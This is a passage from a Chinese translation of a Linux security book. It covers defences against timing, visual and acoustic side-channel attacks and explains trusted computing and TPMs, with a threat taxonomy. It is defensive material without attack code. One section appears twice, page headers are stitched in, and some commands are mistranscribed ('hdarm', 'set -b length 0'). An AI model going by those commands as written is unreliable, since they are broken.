- **节流控制**：使用节流将强制 CPU 进入短时间的睡眠。这些时间可以由用户定义，并且是最有趣的随机化状态。然而，这将对繁忙的系统产生巨大的性能影响。ACPI 的文档可以在 http://www.lesswatts.org/projects/acpi/ 找到。

# 计时攻击

| 流行度: 1 | |
| :--- | :--- |
| 简单性: 1 | |
| 影响: 1 | |
| 风险等级: 1 | |

计时攻击针对的是实现方式，而非实际算法或概念。它们基于计算机响应或处理给定数据项所需的时间，既可以在本地也可以通过远程进行。

最初，这被发现是针对 0.9c 之前的 OpenSSH 版本的侧信道攻击。这些版本容易受到计时攻击，允许本地或远程用户通过计算机响应的时间长短了解特定的登录名。有关此攻击的细节请参阅 http://www.eee.cmu.edu/~dawnsong/papers/ssh-timing.pdf。

进一步的研究还表明这种方法适用于各种网络服务，并且可以通过监控 TCP 数据包的时间戳来推断。

# 穿越时空击败攻击

虽然将 SSH 更新到当前的稳定版本可能就足够避免那种特定的 SSH 计时攻击（因为 SSH 保持了少数依赖于密钥的执行流），但计时攻击的范围可以通过 ACPI 更好地处理。在这里，你必须改变时间以获得平静。

爱因斯坦的相对论预言时间与空间是一一一体的。如果爱因斯坦服用了大量的非处方感冒药并询问“快有多快”，他会用缓慢、昏睡的声音告诉你，快是相对的。要击败计时攻击，你只需要更改 CPU 频率和电压缩放，这将改变 Linux 系统看待时间的方式，就像一个中毒且昏昏的爱因斯坦一样。因此，你可以使用它的性能管理功能来改变 Linux 的感知。这不会改变人类的时间或更改 BIOS 时钟设置；然而，它将改变 Linux 对外部刺激的反应。

在 ACPI 的性能管理下，你可以调整处理器频率和电压缩放，甚至编写脚本根据所有者的意愿进行更改。然而，CPU 必须接受软件控制的管理。并非所有硬件都支持。一种接受它的硬件版本是 Intel SpeedStep 技术，它提供两种模式：一种用于全性能，另一种用于电池电源。在两种模式之间频繁且按规则间隔进行切换，将改变 Linux 系统响应交互的方式。而仅仅频繁使用感冒药可能会产生负面影响，更改其他可能对系统硬件不健康。

频率缩放在较新的内核中也可以找到，并在预编译前直接修改。配置用户空间调节器（Governor for Userspace）允许你通过 http://www.kernel.org/pub/linux/kernel/cpu/ 提供的 `cpufrequtils` 手动访问此功能。大多数 Intel 和 AMD 处理器都受到支持，以及 nvidiaForce2、旧的 Pentium 4 晶钟调制、Cyrix 和 Transmeta LongRun。详细信息可以在此处找到。

# 攻击

| 流行度: 1 | |
| :--- | :--- |
| 简单性: 1 | |
| 影响: 1 | |
| 风险等级: 1 | |

计时攻击针对的是实现方式，而非实际算法或概念。它们基于计算机响应或处理给定数据项所需的时间，既可以在本地也可以通过远程进行。

最初，这被发现是针对 0.9c 之前的 OpenSSH 版本的侧信道攻击。这些版本容易受到计时攻击，允许本地或远程用户通过计算机响应的时间长短了解特定的登录名。有关此攻击的细节请参阅 http://www.eee.cmu.edu/~dawnsong/papers/ssh-timing.pdf。

进一步的研究还表明这种方法适用于各种网络服务，并且可以通过监控 TCP 数据包的时间戳来推断。

# 穿越时空击败攻击

虽然将 SSH 更新到当前的稳定版本可能就足够避免那种特定的 SSH 计时攻击（因为 SSH 保持了少数依赖于密钥的执行流），但计时攻击的范围可以通过 ACPI 更好地处理。在这里，你必须改变时间以获得平静。

爱因斯坦的相对论预言时间与空间是一一一体的。如果爱因斯坦服用了大量的非处方感冒药并询问“快有多快”，他会用缓慢、昏睡的声音告诉你，快是相对的。要击败计时攻击，你只需要更改 CPU 频率和电压缩放，这将改变 Linux 系统看待时间的方式，就像一个中毒且昏昏的爱因斯坦一样。因此，你可以使用它的性能管理功能来改变 Linux 的感知。这不会改变人类的时间或更改 BIOS 时钟设置；然而，它将改变 Linux 对外部刺激的反应。

在 ACPI 的性能管理下，你可以调整处理器频率和电压缩放，甚至编写脚本根据所有者的意愿进行更改。然而，CPU必须接受软件控制的管理。并非所有硬件都支持。一种接受它的硬件版本是 Intel SpeedStep 技术，它提供两种模式：一种用于全性能，另一种用于电池电源。在两种模式之间频繁且按规则间隔进行切换，将改变 Linux 系统响应交互的方式。而仅仅频繁使用感冒药可能会产生负面影响，更改其他可能对系统硬件不健康。

频率缩放在较新的内核中也可以找到，并在预编译前直接修改。配置用户空间调节器（Governor for Userspace）允许你通过 http://www.kernel.org/pub/linux/kernel/cpu/ 提供的 `cpufrequtils` 手动访问此功能。大多数 Intel 和 AMD 处理器都受到支持，以及 nvidiaForce2、旧的 Pentium 4 晶钟调制、Cyrix 和 Transmeta LongRun。详细信息可以在此处找到。

# 视觉攻击

| 流行度: 1 | |
| :--- | :--- |
| 简单性: 1 | |
| 影响: 1 | |
| 风险等级: 1 | |

在致盲攻击者之前，你可以通过更温和的方式阻止这些攻击。在 Linux 中，你可以修改 LED 以按命令工作。在启动之前，大多数 BIOS 甚至 Linux 内核会在系统发生严重故障或硬件缺失时使用键盘指示错误代码。最后，可以剪掉 LED 线，如果不行，黑色胶带、油漆和修正液也能完成这项工作。没有闪烁灯是诚实的。

# 声学攻击

| 流行度 | 1 |
| :--- | :--- |
| 简单性 | 1 |
| 影响 | 1 |
| 风险等级 | 1 |

声学攻击有两种形式。第一种是针对机器的，且与其他侧信道攻击形式大相似。通过监控处理器发出的“嗡嗡”声，你可以确定正在计算的某些方面。尽管听起来很荒唐，A. Shamir 和 E. Trom 展示了通过这种方式获取信息是可能的，而且大量的背景噪声也不会干扰这种技术。

另一种类型的声学攻击基于用户发出的声音，而不是呻吟和咒骂，而是击键盘的声音。在 2004 年的论文《键盘声学发射》中，D. Asonov 和 R.rawal 使用神经网络区分了标准键盘以及 ATM 密码和电话键盘上每个按键的声音。

# 安静时间

为了减轻人类产生噪音（如打字声）的风险，你有几种选择。使用静音橡胶键盘或屏幕键盘/触摸屏都是无噪音的选择。笔式计算也很安静。尽管这些选项都不如真实的键盘舒适。也许更好的选择是确保在该区域使用足够的隔音，以防止攻击者获取用于分析的源素材。

# 攻防 Linux 实：Linux 安全机密与解决方案

为了降低针对机器产生的声学攻击的风险，可以使用隔音设备使声音无法听见，或使用宽带噪声生成设备进行掩盖。另一种方案（与所有其他侧信道攻击类似）是通在代码中引入混淆因素或通过同时运行额外的操作来减少可用数据。此外，可以通过 Linux 内核模块和软件更改或禁用硬件噪音。

标准 Linux 系统上的大部分声音是由扬声器、风扇和硬盘发出的。你可以按照下文所述更改或禁用声音。

### 系统风扇

通常，你可以通过 `libsensors` 库来控制系统风扇，该库用于显示温度、电压和风扇传感器。内核驱动 `lm-sensors` 会执行相同的操作。你可以在 http://www.lm-sensors.nu/ 找到更多信息。此外，你还可以通过 ACPI 电源管理控制来控制风扇。

### 硬盘

硬盘的声音来自于磁盘的旋转。你可以购买特殊的“静音”磁盘。你也可以获得大型闪存卡，它们没有移动部件，没有噪音且发热量极低，从而减少或消除噪音。

对于机械硬盘，`hdarm` 命令允许你设置磁盘旋转，这也可以在硬盘空闲时停止旋转。使用 `-S`、`-y` 和 `-Y` 标志可以更改待机超时 IDE 访问模式，强制硬盘立即进入低功耗状态并停止，以及立即进入睡眠模式。

### PC 扬声器

拔掉扬声器是一个选项，但并非每个人都希望接触主板。从控制台开始，使用命令 `set -b length 0`，对于 X Window 系统，使用 `xset b off` 关闭蜂鸣声。你可以在 Alessandro Rubini 编写的 Visible-Bell-mini-Howto 中找到更多关于禁用扬声器的详细信息，地址为 http://tdlp.org/HOWTO/Visual-Bell.html。

### 总结

“活有多条路”，获取系统信息的方法也不止。这是对几种生存方式的简要概述，其中某些方法近乎偏执，但如果你真的在寻找建立一个“安全”的方法，请考虑所有这些方面，同时处理物理安全问题。

# 第 12 章

### 案例研究

John 在 True Blue 公司工作了六多年，他喜欢管理公司的 IT 基础设施，并逐年对其改进。他非正式地负责从员工那里构建和组织网络及计算机；随着公司从 50 人扩大到 150 人，从国内扩展到欧洲，由于新的 Blue 产品引入了新的 IT 要求，这项任务变得越来越困难。尽管如此，John 成功遏制了威胁并为公司解决了大多数技术问题。

但去年，True Blue 基础设施面临威胁日益增加。由于与国防部签署的新合同，在某些员工的 PC 上发现了键盘记录器，而针对 True Blue 内网的首次分布式拒绝服务（DDoS）攻击让 IT 团队承受了巨大的压力。由于预算限制，利用 John 拥有的资源很难缓解这些威胁。当他的网络工程师和技术人员试图满足服务合同，构建复杂的网络结构（使 VPN 服务器能够与专门的客户端-服务器架构安全地工作，且 True Blue 的某些活动可以外包给其他客户公司）时，IT 基础设施工程师和 IT 平台工程师正在应对不断演变的操作系统和应用程序。


尽管以中心为的杀毒解决方案、防火墙和入侵检测系统（`IDS`）有助于保护 True Blue 的 IT 系统，但尽管 True Blue 管理层认为代价高昂，仍有一些安全风险没有得到妥善解决。True Blue 员工在计算机上安装个人和未经批准的应用程序导致病毒在网络内部传播，访客计算机可能会静静地引入木马并在整个内网中潜伏。当一名员工存有公司业务关键信息的笔记本电脑被盗时，True Blue 面临了重大的公关问题。

一天，John 发现一名黑客进入了 True Blue 公司，并在人力资源部门的茶室留下了一个受感染的 `USB` 密钥。由于感染，从备份服务器恢复文件浪费了那位糟糕秘书的几个小时时间——她是社会工程攻击的无辜受害者。True Blue 员工开始使用的新玩具设备（如智能手机或 `PDA`）意味着安全正受到未管理通信的威胁。

现在 John 已被升为 True Blue 的首席 IT 安全经理，他打算在员工不断提出需求、攻击者不断创新的计算世界中采取主动措施。John 同意董事会的意见，所有新笔记本电脑内部必须带有 `TPM` 芯片，以便可以使用现品轻松实现双因素认证的全盘加密。这可以防止针对被盗笔记本的离线攻击，这种攻击近期频见新闻，并让必须外出使用笔记本电脑的 True Blue 经理感到担忧。新的台式机也必须带有 `TPM`，以便让 John 制定的软件策略能够在操作系统上执行，并可以使用受信的 `VPN` 客户端将网络划分为不同的计算机组（其信任程度不同，并对各种服务有适当的访问权限）。

True Blue 的员工正在适应这种新的 IT 环境，他们不再可以在自己的公司计算机上安装个人应用程序（更准确地说，他们只能在运行在批准的虚拟机管理器之上的非公司域中安装），无法在没有 IT 团队明确批准的情况下更改策略。John 为所有 True Blue 员工举办了一期一天的研讨会，帮助他们理解新基础设施的需求及其工作原理。所有员工都获得了一个受信的 `USB` 密钥来增强其操作系统，并配有一张说明如何保护它的手册，让他们放心存储在 `USB` 上的加密密钥已备份在公司服务器上。一段时间后，员工们庆幸了管理自己电脑安全的负担，他们开始更多地使用手头的在线工具（例如电子商务、面向服务的架构、软件即服务/`SaaS`），甚至开始使用加密工具来保护数据和应用程序，而这对于大多数基础 True Blue 员工来说曾是一项艰巨的任务。

利用现在对 True Blue IT 基础设施的控制权，John 能够大幅提高员工 PC 的安全性，并挫败可能产生毁灭性的攻击。例如，他成功识别了许多未经访问公司网络的尝试，防止了机密信息泄漏到公司外部。通过中心服务器，John 还能通过远程部署脚本管理密钥和安全软件的使用，检查远程员工（即使他们在家里）的状态，灵活授权软件安装，并撤销密钥以禁用特定数据的访问。可信计算（主要基于 `TPM` 并由各种组件组成）并没有消除管理安全的需求，但它让这项任务变得更容易，很大程度上贡献了 John 策略的成功。

# 攻防 Linux 实：Linux 安全机密与解决方案

可信计算是一种新兴技术，也是应用密码和计算领域的热点。这种技术范式和标准旨在构建你“信任”的未来系统安全基础设施。可信计算的出现是为了应对过去日益增长的安全威胁，这些威胁导致专业人员入侵，安全漏洞造成了数百万的缓解和修复费用。可信计算提出了新的安全元素和工具，旨在提高计算安全性，超越了现有系统无法执行策略或在各种架构层进行保护的局限性。

可信计算由可信计算组织（`TCG`，原名为可信计算平台联盟 `TCPA`）定义，该组织围绕受信平台（`TP`）规范定义了一系列行业标准。`TCG` 成立于 2003 年，根据其官方介绍（`https://www.trustedcomputing.org/about/`），它是“非营利组织，旨在定义和促进基于硬件的可信计算和安全技术的开放标准，包括跨平台、外围和设备的硬件构建块和软件接口。`TCG` 规范将在不损害功能完整性、隐私或个人权利的情况下，实现更安全的计算环境。主要目标是帮助用户保护其信息资产（数据、密码、密钥等）免受外部软件攻击和物理盗窃的损害。”`TCG` 现在拥有来自不同行业的 170 成员。

执行可信计算

*本工作部分由欧盟委员会（`EC`）作为 `OpenTC` 项目的一部分（参考号：`027635`）提供资助。其仅代表作者个人，可能不代表整个项目的观点。

## 第 12 章：可信计算

`TCG` 在其名为 `TCPA` 期间的工作饱受批评，这是因为其某些创始人（如微软和英特尔）存在历史性的失误，而当时正处于安全威胁暴露的极值时期。“反 `TCPA`”团体（特别是电子前线基金 `EFF`）的主要关注点之一是隐私对 `TCG` 来说并不重要，因为他们试图将计算机锁定在专有的计算解决方案中。理查·斯尔曼（Richard Stallman）的文章《你可以信任你的计算机吗？》（可用 `http://www.gnu.org/philosophy/can-you-trust.html`）就是这一运动的典型；还有一种说法认为可信计算的创建仅仅是为了实施数字权利管理（`DRM`）系统，这种技术创建部分目的是为了防止复制和非法分发受版权的内容（例如多媒体文件）。但现在，这项技术已经成熟，并被包括自由/开源成员和社区在内的大部分行业所接受，可以看出许多底层问题已经得到了解决，例如通过引入新的匿名机制保护了隐私，而且由于许多组件和工具现在已免费适用于 `Linux`，技术的专有属性得到了缓解。

可信计算规范被分为若干标准组：基础设施、移动、`PC` 客户端、服务器、可信网络连接（`TNC`）、可信平台模块（`TPM`）和 `TCG` 软件栈（`TSS`）。每组规范解决特定问题或为特定环境（例如移动和服务器）提供定制解决方案。`TPM` 规范定义了平台核心元素，而网络组件在 `TNC` 规范中描述。感兴趣的读者可以在 `TCG` 网站找到更多信息，所有规范均公开并免费提供：`https://www.trustedcomputinggroup.org`。

可信计算依赖于三个核心元素：测量、信任根和信任链。测量（Measurements），也称为完整性测量，是可靠识别某个软件的手段，通过对程序二进制文件应用哈希值或完整性指标（当前为 `SHA-1`）来获取该程序唯一的 160 位（20 字节）标识符。这些测量值在本质上并不对应于（不可）信任性的值，因为这一决策留给了向平台请求这些测量值的实体。平台上所有可用测量值的集合定义了由软件控制执行的状态以及它是如何启动的。信任根（Root of trust）是一个为了特定目的需要信任的元素，其规模足够小，以便对其属性进行良好的定义和分析，从而赋予程序高水平的信任度。`TCG` 定义了三个基本的信任根：测量根（`RTM`），用于获取程序的可靠测量值（即核心 `RTM`，或 `CRTM`，它是用于测量平台重置后执行的程序的 `RTM`，即启动过程中的第一个程序）；存储信任根（`RTS`），用于以可靠的方式存储数据；以及报告信任根（`RTR`），用于向请求的实体报告完整性测量值。信任链（Chain of trust）通过从 `CRTM` 开始的程序通用序列来指定每个程序，并测量上一个程序中的每一个程序，确保序列中的所有程序在执行之前都经过了测量。

# 攻客防守 Linux：Linux 安全机密与解决方案

信任链的典型示例是通过使用可信计算修改的启动序列，这被称为认证启动（`authenticated boot`）。

可信计算的通用架构（见图 12-1）围绕一个名为可信平台模块（`TPM`）的中央组件展开，`TPM` 通常实现为集成在主板上的独立芯片，但这种集成并非强制条件，`TPM` 也可以采取其他形式，例如作为芯片组的子组件、主板上的独立芯片、软件仿真或虚拟化 `TPM`。`TPM` 是一个防篡元素，包含了 `RTS` 和 `RTR`，以及易失性非非易失性内存（特别是至少有 16 个用于存储完整性测量值的平台配置寄存器（`PCRs`））、加密能力（保护哈希 `HMAC`、`RSA` 密钥生成与存储、`RSA` 加密和签名以及真随机数生成）以及用于启用 `TPM` 使用的可选命令。



## 第 12 章：可信计算

`TPM` 是一个被动芯片，它本身不执行命令，只有在通过执行程序请求时才执行。它必须由平台所有者显式启用和激活。前者通常通过符合 `TCG` 标准的 `BIOS` 完成，而后者是使用可信计算工具通过一种名为“获取所有权”（`taking ownership`）的操作完成。`TPM` 包含一个 2048 位 `RSA` 密钥对，称为终端密钥（`EK`），其私部分在内部使用（绝不会在 `TPM` 之外暴露），以安全地执行所有操作，而公部分可以导出到 `TPM` 之外，并与终端密钥证书（通常由 `TPM` 制造商签名）相关，该证书证明了密钥的唯一性并满足 `TCG` 定义的属性。由 `TPM` 生成的密钥，以及用户请求 `TPM` 保护的任何其他秘密，都存储在通过使用存储根密钥（`SRK`）保护的层次结构中。

身份标识密钥（`AIKs`）。`AIKs` 使用带有来自隐私认证机构（隐私-`CA` 或 `P-CA`）的证书生成，该协议验证终端密钥证书的有效性并证明 `AIK` 属于某个 `TPM`。此认证过程确保了隐私，因为只有 `P-CA` 能够将其创建的 `AIK` 与该 `TPM` 的 `EK` 关联起来。另一种身份认证过程直接匿名证明（`DAA`）涉及复杂的密码学，并可用于显著提高身份认证过程的隐私属性，因为你只能将密钥追溯到一组 `TPM`，而不是个人。需要注意的是，所有涉及加密密钥操作的命令都是在 `TPM` 内部执行的，其执行方式确保密钥对的私部分在 `TPM` 之外永远不会明文可见。

许多 `TPM` 命令使用 20 字节长的授权数据进行控制，这些数据必须根据命令在特定时间指定（例如在 `TPM` 激活或使用 `TPM` 安全地存储数据数据时），并在挑战/响应协议中使用。`TCG` 定义的两种授权协议（例如 `OIAP` 和 `OSAP`）确保授权者有权请求执行命令，并允许创建会话以按顺序运行多个 `TPM` 命令。某些 `TPM` 命令需要物理存在（`physical presence`），以确保命令的用户物理位于平台旁。这通常对应于按下物理按键，例如在 `TPM` 激活过程中按下 `F1` 键。

可信平台（`TP`）提供了基本功能，包括保护能力和平台认证机制。受保护能力包括完整性测量和报告、数据绑定（`binding`）以及数据密封（`sealing`）。这些功能如图 12-2 所示。

完整性测量对应于将完整性指标应用于程序，计算出的摘要存储在 `TPM` 的特殊寄存器中，称为平台配置寄存器（`PCR`）。`PCR` 被称为是“扩展”（`extended`），这意味着当实体请求将一个值添加到 `PCR` 时，该值将与旧的 `PCR` 值拼接；拼接的结果被哈希处理，然后存储在 `PCR` 中。通过这种 `PCR` 扩展机制，`PCR` 实际上存储了

# 338 攻防御 Linux：Linux 安全机密与解决方案


图 12-2 可信平台模块 (`TPM`) 架构与信任根

输入到 `PCR` 的所有值的链式哈希。每当对 `PCR` 进行扩展（`extend`）时，该命令及其参数都会记录在系统管理日志（`SML`）中，该日志可用于审计系统。特定平台的 `TCG` 规范定义了哪些 `PCR` 规范预留 `PCR[0]`（第一个 `PCR`，编号为 0）用于测量 `BIOS` 的不同部分（包括 `CRTM`）和主机扩展部分。*完整性报告*（Integrity reporting）是一种证明操作，用于向请求完整性测量的实体验证存储内容的完整性，并由 `RTR` 管理。

*绑定（Binding）是指使用 `TPM` 的公钥对特定内容进行加密，以便该内容只能由该特定的 `TPM` 解密，前提是该 `TPM` 是不可迁移的（即 `TPM` 防止其其迁移到其他 `TPM`）。*密封（Sealing）是绑定的扩展形式，只有当平台匹配一组特定的平台指标（即一个或多个 `PCR`）时，才能使用解密密钥解密内容，这被称为*平台配置或状态*。在对数据密封时，会指定每个 `PCR`。如果在解封时，`PCR` 值与密封时指定的配置状态不匹配，则内容无法解密。密封操作确保了内容仅在特定的执行环境中可用，该环境由存储在各种目标程序 `PCR` 中的哈希值指定。

在可信计算的背景下，证明（`attestation`）是指向请求信任属性证明的外部实体（例如远程程序）对可信平台的信任属性进行担保。

# 第 12 章：可信计算

此类信任属性的证明机制对应于几种不同的情况：

- *通过 `TPM` 进行证明提供 `TPM` 已知数据的证明。* 在这种情况下，`TPM` 内部数据由证明身份密钥 (`AIK`) 进行数字签名，`AIK` 是在此证明交换期间使用的平台身份。

- *通过平台进行证明提供平台可以受信并报告完整性测量的证明。* 这对应于对与平台相关的凭据（如平台证书）的使用和验证。

- *对平台的证明提供一组平台完整性测量的证明。* 使用 `AIK` 对一组 `PCR` 进行数字签名，以可信的方式显示平台配置。

- *对平台的身份验证（Authentication）提供给定平台身份的可信度证据。* 与证明平台的情况类似，该操作涉及身份证书的使用和验证。

`TPM` 规范实际上仅适用于 `PC` 和服务器平台。在移动平台（例如手机手机、`PDA`、嵌入式设备）的情况下，`TCG` 的移动手机工作组规定了一种名为移动可信模块 (`MTM`) 的 `TPM` 版本。`MTM` 与 `TPM` 有许多相似之处，但根据绑定到哪个利益相关者（例如设备制造商、网络服务提供商、企业、内容提供商或用户/所有者），它可以接受两种形式。移动本地可信模块 (`MLTM`) 是 `TPM` 的密切版本，但受到限制，可以实现在硬件资源非常受限（如限制和内存限制）的移动平台上。移动远程可信模块 (`MRTM`) 是 `MLTM` 的版本，允许远程实体（如手机制造商或蜂窝网络提供商）将手机的部分预设为某些预定义值。

可信计算基础设施的其他元素包括可信网络连接 (`TNC`)，它允许你在网络层面利用可信平台功能，并根据终端配置数据实施网络安全策略。例如，当计算机运行特定版本的 `Linux` 内核时，可以允许其访问某些网络；如果它们执行如 `Java` 等特定的执行元素，则拒绝对某些服务的访问。`TCG` 基础设施工作组还规定了各种胶接元素（例如 `XML` `API`），用于捕和报告完整性信息，以及完整性测量架构 (`IMA`)，用于将信任链从引导组件扩展到更复杂的软件（如操作系统内核和系统服务）。

你应该注意，可信计算并不止于 `TCG` 规范。传统的可信计算基础 (`TCB`) 概念是指为了信任平台而需要信任的平台组件集，它涵盖了 `TCG` 元素（`RTM` 和 `TPM`）以及与之直接相关的软件（`BIOS`、引导加载程序、操作系统加载程序以及可能存在的内存管理器）。另一方面，`TSS` 是通用软件用于与 `TPM` 交互的应用程序接口 (`API`)，它不是 `TCB` 的一部分，因为它是一个无法轻易启用的大型复杂中间件。

# 攻防御 Linux：Linux 安全机密与解决方案

可信计算的一项最新进展是引入了虚拟机管理器（`hypervisors`），也称为虚拟机监控程序 (`VMMs`) 或虚拟化层。该技术用于在硬件和软件之间引入额外的软件层，以提供一个可以在其中运行隔离操作系统的隔间。虚拟机管理器最初用于服务器平台以执行和管理多个环境。但事实证明，它们的隔离属性满足了信任的意外卓越性。`VMware` 率先实现了这种技术，随后开发了更多开源虚拟机管理器，例如 `Xen`、`LX` 甚至 `KVM` `Linux` 内核模块。执行虚拟机管理器需要比授予操作系统内核的传统“`ring 0`”更高级别的特权。这一特性通过将运行在虚拟机管理器上的操作系统推入 `ring 1`，或者通过为虚拟机管理器提供新的“特权”执行环层提供 `CPU` 指令来实现。

接下来的章节将概述使用可信计算可以防止的各种安全攻击，并提供目前可用的 `Linux` 支持工具和应用程序的示例。可信计算的一些概念将在后续章节中进行深入探讨。

# 平台攻击分类法

可信计算是一项广泛的技术，旨在提高下一代计算系统的安全门槛。事实上，这种安全范式从硬件延伸到应用程序，贯穿所有中间元素——固件、启动序列组件、虚拟机管理器和 操作系统。`TCG` 在其规范中明确指出，可信计算并不对抗物理攻击（例如，攻击者可以打开你的电脑或手动重置 `TPM`，或尝试打开它获取密钥），但假设大多数物理组件将使用适当措施进行保护。在实践中，这意味着 `TPM` 制造商对 `TPM` 芯片的物理安全特别小心（某些 `TPM` 有多达 80 个内部物理机制来保护 `TPM`），用户保护自己的电脑，或者公司管理计算资产的物理安全。

要用简单的语言解释可信计算可以防止的种类攻击是困难的，因为存在许多可能的攻击向量和使用众多可信能力的方法。本章并不旨在穷尽，并承认安全格局经常演变，从而改变威胁和安全工具的形态。此外，解决这些问题的第一个具体解决方案才最近发布，限制了导致理解其在缓解威胁方面实际影响的实践经验。我们将

## 第12 章：可信计算

尽管如此，本文旨在概述可信计算技术帮助防止的典型攻击，并在可用的情况下对相关的技术元素进行描述。

正如安全领域通常的情况一样，受攻击者威胁的计算系统属性包括以下方面。

**身份验证（Authentication）**：这是以明确且可验证的方式识别实体（例如人、计算机、信用卡等）或某段数据的能力。实体验证可以通过大多数操作系统中的用户身份验证示例来说明，即通过登录识别用户，并通过密码验证该标识符。身份验证通常涉及：你所知的（例如登录名和密码）、你所拥有的（例如 `USB` 密钥）、你所具备的（生物识别）以及/或你所处的位置。另一方面，数据源认证（或称消息认证）确保了数据源是可以被识别的。你可以对匿名身份进行验证（即无法直接追溯到终端用户或消费者的身份），特别是通过提供实体证书来实现，由受信权威证明某特定身份的有效性（而不泄露该身份）。

**授权（Authorization）**：这是将访问权限从实体关联到对象的过程，定义了谁被允许以什么方式访问什么内容，并在请求访问时验证（或校验）这些权限。授权控制进入系统各个入口的访问，并确保设置了控制点以防止未经授权的访问。虽然强制访问控制（`MAC`）通常假设访问是通过对象上的标签（例如敏感性）指示的，且控制机制是稳健的（即难以绕过），但裁量访问控制（`DAC`）则根据实体的身份定义访问，使得传递权限成为可能。`DAC` 机制用于大多数 `Linux` 发行版，而 `MAC` 机制则可以在 `SE Linux` 等发行版中找到。

**完整性（Integrity）**：如果一段信息没有被未经授权或未知的手段篡改，并且在所有者修改它之前保持不变，则该信息具有完整性。信息在以下情况下失去完整性：例如，恶意实体在通信期间修改了它，通常是为了利用漏洞并获得相对于用户的优势。对于计算系统的许多方面来说，这是一个至关重要的属性，因为数据需要具有完整性才能正常运行。


# 机密性（Confidentiality）

数据对于使用该数据的实体必须保持私密。这一属性同时适用于本地和远程环境。机密性有多个级别。

可用性（Availability）有时会被加入到上述四个属性中，但在可信计算的情况下其关注度较低，因为它并不专门关注通信。不可否赖性（Nonrepudiation）、撤销（Revocation）和审计（Accounting）属性也被纳入 `TCG` 规范，但仅针对该技术更具体的方面。

## 破解的 Linux：Linux 安全秘密与解决方案

这些属性中的每一个自然导致了可信系统易受的常见威胁。

### 欺骗或身份欺诈（Spoofing or Identity Fraud）

人们通常通过计算机架构的不同层级被识别，例如 `MAC` 地址和 `IP` 地址、操作系统版本、应用身份以及账户/登录名称。通过伪造这些标识符中的任何一个，恶意用户可以防止与其交互的任何人追溯到其计算机，甚至可以假冒他人。在架构的最低层，这种攻击是中间人攻击或中继攻击；而在架构的最高层，一个例子是身份盗用，这正成为计算系统的主要威胁之一，因为身份系统和标识符的多样性和不一致性加剧了这种威胁。近年来出现了一些此类复杂的攻击，例如钓鱼攻击，用户被欺骗，认为自己正在连接到常用的银行或电子商务服务器（如 `eBay`、`Amazon`），而实际上，他正在连接到一个完美模拟真实服务器外观的假服务器。如果攻击者将其标识符更改另一个用户的，这种威胁可能会导致下一个威胁，即未经授权的访问。

### 未经授权的访问（Unauthorized Access）

随着 `Linux` 等多用户系统的广泛使用以及代表并满足多个利益相关者的需求，访问需求违反变得越来越危险和常见。这种威胁可以从两个角度产生，取决于系统是检查权限（`Linux` 文件访问权限中常用的访问控制列表）并阻止任何未经许可的操作，还是通过请求实体的各种能力来阻止未明确许可的操作。例如，间谍软件利用现代操作系统安全原则的宽限性来管理用户信息，以更好地利用用户的习惯和偏好，从而侵犯他们的隐私和信任。尽管处于公共和社会学争议的中心，但数字版权管理（`DRM`）系统也用于强制执行访问权限，但是针对存储在与所有者不同平台上的对象。后者的这一方面应与“公平使用”的概念区分开，因为两者会导致不同类型的问题（使用 `DRM` 强制执行不公平的使用模型时产生的支配地位滥用）。

### 数据或代码的未经授权或隐藏修改（Unauthorized or Hidden Modification of Data or Code）

恶意软件通过修改系统和用户文件来运行，以便从这些修改中获得某些优势（便利、访问、控制）。根基程序（`Rootkits`）修改操作系统代码以执行并躲避操作系统和用户。特洛马（`Trojans`）修改服务策略并开放网络端口以与控制黑客通信，可能像蠕虫一样在局域网中传播。所有这些手段都依赖于现代操作系统无法有效检查系统文件的完整性。这有时会导致用户文件损坏，例如，勒索软件（或加密病毒）程序会加密用户数据（如重要文档），将解密密钥发送回黑客，从计算机中删除密钥，并向用户解释，她只有向黑客支付赎金才能获得解密数据的密钥。

## 第12 章：可信计算

### 机密性泄露（隐私）（Breach of Confidentiality (Privacy))

近年来，导致机密或私有信息泄露的安全事件数量大幅增加，例如信用卡或健康信息。美国公司 `TJX` 的案例非常著名，因为该公司由于笔记本电脑被盗丢失了数百万客户记录，说明了问题的规模。随着间谍软件的使用，问题变得更加个人化，这种软件通常随用户安装的另一个程序捆绑，秘密监视活动并汇报用户从未打算共享的统计数据。

很多加密可以用于保护，但执行加密的软件运行在无法完全信任（如果可以的话）系统之上。尽管 `TPM` 提供了稳健的加密功能（通常在硬件中实现且对利用有很强的抵抗），但它由运行在硬件之上的软件控制。特别是操作系统，由于单内核架构授予了许多权限，使得它们的验证和可信度在如今几乎是不可能的。这种特定的技术威胁通过尝试实施正确的内存管理和外围设备访问的虚拟机来解决。

可信平台攻击向量的简单分类模仿了这些系统的通用架构：

- **硬件攻击（Hardware attacks）**：此类攻击并非其标准的目标，但可以通过适当手段阻止一部分。这种能力通过新的 `Intel` 和 `AMD` 硬件架构得到了加强，这些架构实现了有效使用可信计算所需的更改。
